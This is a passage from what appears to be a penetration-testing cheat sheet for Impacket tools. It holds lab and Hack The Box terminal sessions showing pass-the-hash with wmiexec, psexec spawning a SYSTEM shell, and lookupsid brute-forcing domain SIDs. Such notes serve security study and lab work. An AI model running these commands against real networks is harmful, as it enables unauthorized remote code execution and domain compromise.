 **Example:**

```text
root@kali:/opt/impacket# wmiexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 administrator@10.10.10.103 
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation 

[*] SMBv3.0 dialect used 
[!] Launching semi-interactive shell - Careful what you execute 
[!] Press help for extra shell commands 
C:\>whoami 
htb\administrator 
```

### psexec

PSEXEC like functionality example using RemComSvc\(https://github.com/kavika13/RemCom\). 

Example 

```text
root@kali:~/hackthebox/active-10.10.10.100# psexec.py active.htb/administrator@10.10.10.100 
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies 
Password: 
[*] Requesting shares on 10.10.10.100..... 
[*] Found writable share ADMIN$ 
[*] Uploading file dMCaaHzA.exe 
[*] Opening SVCManager on 10.10.10.100..... 
[*] Creating service aYMa on 10.10.10.100..... 
[*] Starting service aYMa..... 
[!] Press help for extra shell commands 
Microsoft Windows [Version 6.1.7601] 
Copyright (c) 2009 Microsoft Corporation.  All rights reserved. 
C:\Windows\system32>whoami 
nt authority\system 
```

### lookupsid

```text
PS C:\Users\Jack\Downloads\impacket-examples-windows-master> .\lookupsid.exe ETH/Jack:Password@192.168.211.128        
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies 

[*] Brute forcing SIDs at 192.168.211.128 
*] StringBinding ncacn_np:192.168.211.128[\pipe\lsarpc] 
[*] Domain SID is: S-1-5-21-XXXXX-2199257571-2188946577 
498: ETH\Enterprise Read-only Domain Controllers (SidTypeGroup) 
00: ETH\Administrator (SidTypeUser) 
501: ETH\Guest (SidTypeUser) 
502: ETH\krbtgt (SidTypeUser) 
512: ETH\Domain Admins (SidTypeGroup) 
513: ETH\Domain Users (SidTypeGroup) 
514: ETH\Domain Guests (SidTypeGroup) 
515: ETH\Domain Computers (SidTypeGroup) 
16: ETH\Domain Controllers (SidTypeGroup) 
517: ETH\Cert Publishers (SidTypeAlias) 
518: ETH\Schema Admins (SidTypeGroup) 
519: ETH\Enterprise Admins (SidTypeGroup) 
520: ETH\Group Policy Creator Owners (SidTypeGroup) 
521: ETH\Read-only Domain Controllers (SidTypeGroup) 
522: ETH\Cloneable Domain Controllers (SidTypeGroup) 
525: ETH\Protected Users (SidTypeGroup) 
526: ETH\Key Admins (SidTypeGroup) 
527: ETH\Enterprise Key Admins (SidTypeGroup) 
553: ETH\RAS and IAS Servers (SidTypeAlias) 
```